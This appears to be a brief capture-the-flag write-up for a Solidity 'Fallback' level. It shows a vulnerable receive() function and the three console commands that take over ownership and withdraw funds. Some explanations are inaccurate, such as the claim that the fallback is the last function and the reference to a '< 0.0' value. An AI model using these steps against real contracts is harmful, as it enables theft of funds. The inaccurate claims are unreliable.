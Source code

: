 ## Fallback memes

In a nutshell, solidity will always require some sort of fallback method to be able to process any non-standard transaction sent to the contract. 
This includes any sort of transaction with no data, no matching parameters and so and forth. As of current state, the default fallback method is
the last one in the contract. It has to be external and payable.

In our meme of a contract, we're provided with the following fallback method:


```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

Little needs to be said, we need to contribute once and then send a bogus transaction with < 0.0 value. Here are the commands:
```solidity
contract.contribute({to: instance, from: player, value: toWei("0.0005", "ether")})
sendTransaction({from: player, to: contract, value: toWei("0.0005", "ether")})
contract.withdraw()
```

Tada... how anticlimactic.
